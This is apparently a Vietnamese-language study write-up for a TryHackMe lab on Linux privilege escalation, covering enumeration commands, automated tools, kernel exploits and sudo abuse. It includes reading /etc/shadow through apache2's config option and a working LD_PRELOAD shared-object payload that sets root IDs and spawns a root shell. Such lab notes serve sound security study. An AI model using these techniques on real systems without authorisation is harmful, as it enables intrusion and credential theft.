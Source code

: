 ```yaml
---
title: "Linux Privilege Escalation"
date: "2025-02-13"
excerpt: "Linux Privilege Escalation - Tryhackme"
featured: "/images/linux_escape.webp"
---
```


## Step 1: Enumeration

Enumeration là bước đầu tiên bạn phải thực hiện một khi bạn có quyền truy cập vào bất kỳ hệ thống nào. 

`hostname`: trả về hostname của hệ thống đích => có thể chứa thông tin về hệ thống

`uname -a`: Đưa ra thông tin chi tiết về kernel của system

`/proc/version`: Chứa các thông tin về các tiến trình trên hệ thống mục tiêu. 

`/etc/issue`: Chứa thông tin về Hệ điều hành

`ps command`: Đưa ra các tiến trình đang chạy trên Linux bao gồm PID (process id), TTY (Terminal type used by the user), Time (Khoảng thời gian CPU được sử dụng bởi tiến trình), CMD (dòng lệnh hay câu lệnh thực thi đang chạy).

`ps -A`: Xem tất cả tiến trình đang chạy

`ps axjf`: Xem tiến trình dạng cây

`ps aux`: Tiến trình của toàn bộ users

`env`: Show các biến môi trường

`sudo -l`: Hệ thống mục tiêu được cấu hình để cho phép người dùng chạy 1 vài (hoặc tất cả) các lệnh với quyền __root__ => List các command có thể được user chạy với quyền __root__

`netstat`: Được sử dụng với 1 số options khác nhau để thu thập thông tin và các connections hiện có

__netstat -a__: show các ports đnag lắng nghe và các kết nối đã được thành lập.

__netstat -at__ hoặc __netstat -au__: hiện các giao thức TCP, UDP tương ứng.

__netstat -l__: các ports ở chế độ lắng nghe. Option -t: TCPP protocol

`find Command`: Tìm kiếm thông tin

__find . -name flag1.txt__: Tìm kiếm file flag1.txt ở thư mục hiện tại.

__find /home -name flag1.txt__: Tìm kiếm file flag1.txt ở thư mục /home.

__find / -type d -name config__: Tìm kiếm folder tên "config" ở "/"

__find / -type f -perm 0777__

__find / -perm a=x__: Tìm file thực thi

__find /home -user frank__: TÌm các file của người dùng "frank" trong folder /home

__find / -mtime 10__: Tìm các file mới được sửa đổi trong 10 ngày

__find / -atime 10__: Tìm các file mới được truy cập trong 10 ngày

__find / -cmin -60__: Tìm các file mới được sửa đổi trong 60 phút

__find / -amin -60__: Tìm các file mới được truy cập trong 60 phút

__find / -size +100M__

__-type f 2>/dev/null__: đưa ra output sạch, lỗi đưa vào /dev/null

Tìm kiếm các folder có thể ghi:

`find / -writable -type d 2>/dev/null`

`find / -perm -222 -type d 2>/dev/null`

`find / -perm -o w -type d 2>/dev/null`

`find / -name gcc*`

## Step 2: Automated Enumeration Tools

`LinPeas`: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS

`LinEnum`: https://github.com/rebootuser/LinEnum

`LES (Linux Exploit Suggester)`: https://github.com/mzet-/linux-exploit-suggester

`Linux Smart Enumeration`: https://github.com/diego-treitos/linux-smart-enumeration

`Linux Priv Checker`: https://github.com/linted/linuxprivchecker

## Step 3: Privilege Escalation

### Kernel Exploits

Kernel trên Linux quản lý việc các thành phần như memory trên hệ thống và ứng dụng giao tiếp với nhau. Các chức năng này cần có quyền cụ thể => Khai thác thành công, có quyền __root__

__Khai thác Kernel__

- Nhận dạng version của kernel
- Tìm kiếm code exploit của version đó
- Chạy code

### Sudo

Lệnh __sudo__ cho phepsp người dùng chạy chương trình với quyền __root__. Trong 1 số trường hợp, admin có thể cho người dùng quyền __root__ khi thực hiện công việc gì đó. 

`sudo -l`: Hệ thống mục tiêu được cấu hình để cho phép người dùng chạy 1 vài (hoặc tất cả) các lệnh với quyền __root__ => List các command có thể được user chạy với quyền __root__

[gtfobins](https://gtfobins.github.io/): tài nguyên cung cấp thông tin cách chương trình có thể có quyền sudo có thể được sử dụng

__Leverage application functions__

Apache2 có option lựa chọn tệp cấu hình thay thế

![image](https://i.imgur.com/rNpbbL8.png)

=> Load file `/etc/shadow` luôn cũng được, sẽ ra dòng đầu tiên

__Leverage LD_PRELOAD__

Trên một số hệ thống, ta có thể thấy LD_PRELOAD env option

![image](https://i.imgur.com/gGstS69.png)

LD_PRELOAD là một chức năng cho phép bất kỳ chương trình nào sử dụng các thư viện được chia sẻ.

[Blog này](https://rafalcieslak.wordpress.com/2013/04/02/dynamic-linker-tricks-using-ld_preload-to-cheat-inject-features-and-investigate-programs/) nói cho bạn về khả năng của LD_PRELOAD. Nếu option __env_keep__ được bật, ta có thể generate thư viện chung để mà được load và thực thi trước khi chương trình được chạy. LD_PRELOAD sẽ bị bỏ qua nếu ID người dùng thực khác với ID người dùng hiệu quả.

Các bước leo quyền với LD_PRELOAD:
- Check LD_PRELOAD với option env_keep
- Viết code C và compile về share object file (.so extension)
- Chạy chương trình với quyefn sudo và LD_PRELOAD trỏ tới file .so của ta

Code C:

```C
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```

Compile

```
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

Run program

```
sudo LD_PRELOAD=/home/user/ldpreload/shell.so find
```

Result

![image](https://i.imgur.com/1YwARyZ.png)

